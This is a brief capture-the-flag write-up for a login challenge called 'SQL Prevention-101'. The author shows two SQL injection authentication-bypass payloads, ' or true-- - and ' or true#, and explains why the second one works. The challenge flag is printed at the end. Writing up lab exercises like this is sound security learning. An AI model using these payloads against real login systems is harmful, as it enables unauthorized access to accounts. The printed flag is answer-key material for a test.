


# SQL Prevention-101
> Just try to hack my login with account "admin", I've taken all the precautions that I can...

## About the Challenge
We were given a plain website and we need to find the flag there. In the website there is a simple form to login to the website


## How to Solve?
At first i tried to input simple SQL injection payload to bypass admin panel

```
Username: ' or true-- -
Password: 
```

And then website will return like this



So we can't user `-- -` as SQL comment, i tried the alternative, for example `#`. So the final payload is

```
Username: ' or true#
Password: 
```

And then we will get the flag



```
flag{curse_you_mysql!}
```